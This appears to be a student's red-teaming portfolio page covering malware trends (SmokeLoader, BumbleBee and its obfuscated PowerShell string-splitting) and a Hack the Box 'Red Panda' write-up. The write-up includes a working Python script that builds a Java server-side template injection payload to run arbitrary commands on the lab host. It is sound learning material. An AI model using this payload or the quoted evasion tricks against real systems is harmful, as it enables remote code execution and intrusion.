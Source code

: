 ```yaml
---
layout: default
title: LO1
---
```


# Learning outcome 1 - security specialist

1. [Trend research](#trend-research)
2. [Hands-on experience](#hands-on-experience)

# Trend research
The red teaming domain of cybersecurity industry is constantly influenced by new discoveries, reports and attacks that are happening in the world.
To try and create a snapshot of its current state, I will try to describe what trends are emerging, fading and blooming in the industry. 

## What is a trend?

To me, a trend is a generic term, which can describe the things that are on the mouths of people or the current preferences/commodidities that a 
certain group sticks to. However, in the cybersecurity context, trends can be defined as the directions in which the industry is developing,
new attack techniques, exploits on new (and old) technologies as well as the legal aspects of hacking. 

Therefore, I have decided to inquire into different hacker 'groups', malware aggregators and cybersecurity reports to see which things are receiving more
traction in the red teaming world.

## Research questions

It is hard to create main research questsion for this document, since it focuses on exploring different trends and not trying to achieve a 'common goal'. 
Nevertheless, my research needs a direction, therefore I have decided to write down the research questions that I want to follow while conducting the 
investigation.

1. What kind of malware is on the rise right now?

2. Do new APT actors use currently trending malware families?

3. How do cybersecurity companies protect businessess and organisations agains cyber-attacks?

## What kind of malware is on the rise right now?

Windows is the most popular operating system in the world. Almost every PC runs it, and almost every company is using Windows ecosystem to manage their
assets and provide services for in-house needs. Moreover, if a company is has a web service, it most likely runs on Azure, which is also built on top of
Active directory and Windows Servers (*[Azure Stack](https://www.darrylvanderpeijl.com/azure-stack-the-fabric-layer/)*).

In order to look for recent malware discoveries I have turned to websites such as *[VX-Underground](https://vx-underground.org)* and 
*[Malpedia](https://malpedia.caad.fkie.fraunhofer.de)*. Both websites are databases containing malware examples, source code and research papers
on different topics regarding red teaming (as well as sytem hardening). The websites are being often updated with new discoveries, therefore I 
have decided to use them as my sources for providing examples of recent Windows exploits.

1. Shellcode injection

	VX-Underground's twitter account often references security researchers which make interesting discoveries. 
	*[This tweet](https://twitter.com/vxunderground/status/156712442718730649e)* points to a security researcher which found numerous ways
	to execute shellcode in C# and in C using native Windows dlls - *[\_Wra7h/FlavorTown](https://github.com/Wra7h/FlavorTown)*

2. SmokeLoader
	
	Further browsing VX-Underground's twitter led me to a writeup on a SmokeLoader - a software used mainly for loading malware into infected 
	PC. According to Malpedia, this program has been used in a *[number of recent exploits](https://malpedia.caad.fkie.fraunhofer.de/details/win.smokeloader)*.
	*[A writeup](https://github.com/vc0RExor/Quick-Analysis/blob/main/SmokeLoader/SmokeLoader.md)* on SmokeLoader also explains that the malware
	has applied strong evasion techniques - it detects whether it is running in a virtual environment, is being debugged or statically analysed.
	Moreover the dropper uses a technique called *[process hollowing](https://github.com/m0n0ph1/Process-Hollowing)* to evade process-based surveillance.  

	Microsoft's security team found traces of SmokeLoader (alternatively called Dofoil) as early as in 2018. 
	In *[this post](https://www.microsoft.com/security/blog/2018/03/07/behavior-monitoring-combined-with-machine-learning-spoils-a-massive-dofoil-coin-mining-campaign/)*
	MS' security team explained that the dropper was used to propagate a cryptocurrency mining software through a poisoned peer-to-peer 
	application - PUA/PUP called MediaGet.

3. BumbleBee

	In march a new malware loader was discovered. The code was named 'BumbleBee', after an user agent string that the malware used to contact the command
	and control center. The discovery was made after a malware spread in a spear-phishing email campaign. The following graph shows an example of BumbleBee delivery

	![BumbleBee delivery graph](./assets/img/bumblebee_email.png)

	In late August, a new attempt to deliver malware was prevented. The detailed description can be found on Deep Instinct's 
	*[website](https://www.deepinstinct.com/blog/the-dark-side-of-bumblebee-malware-loader)*. The malware delivery chain forces user
	to extract a _.zip_ archive, thus the _.iso_ file is mounted on victim's machine. The disk image contains a _.dll_ with payload and 
	a _.lnk_ file which opens a PowerShell script. To ensure stealthy execution of the payload, the PowerShell script uses multiple evasion techniques, such as:

	* It breaks up command strings, to obfuscate code and evade static analysis. An excerpt from the malware PS script:

	```
		$maraDizo = "Get";  
		$maraDizo += "Current";
		$maraDizo += "Process";

		# I skipped over some code

		$cPr = [System.Diagnostics.Process]::$maraDizo;
	```

	* BumbleBee proactively checks for a virtual/sandboxed environment and tries to prevent analysis. It was found to use
	*[al-khaser](https://github.com/LordNoteworthy/al-khaser)* - an open-source project containing a plethora of different tools that check whether
	the malware is running in a VM, has a debugger attached, is being analysed etc.  

	According to Bleeping Computer, the malware is still in development and becomes more and more sophisticated with each update - for example, recent 
	versions, found in September, 
	*[load the payload directly into memory](https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/)*,
	reducing detection possibilities even more.

## Cyber-attack protection

The amount of cyber threats that can impact an organisation can be overwhelming for companies which do not have SoC teams or sophisticated anti-malware software.
To respond to the demand, big cybersecurity companies like *[Cloudflare](https://www.cloudflare.com/)*, *[Sonicwall](https://www.sonicwall.com/)* 
or *[Malwarebytes](https://www.malwarebytes.com/)*.


# Hands-on experience

To prove my proficiency in the practical part of red teaming, I have to provide proof of a hand-on experience with hacking. The techniques used are mentioned in the 
Mitre ATT&CK catalog.

## Hack the Box and SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda

![Redpanda main page](./assets/img/redpanda.png)

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

![Greg panda](./assets/img/greg.png)

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload like that: _*{ malicious code }_. I tried getting all environment variables from the host.

![Server's environment variables](./assets/img/get_env.png)

I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests

from bs4 import BeautifulSoup as bs

# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"

mid = ""
command = sys.argv[1]

for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"

payload = first + mid + last

# send post request to /search
ip = "10.10.11.170"
endpoint = "search"

res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )

soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})

print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

![User flag](./assets/img/user.png)
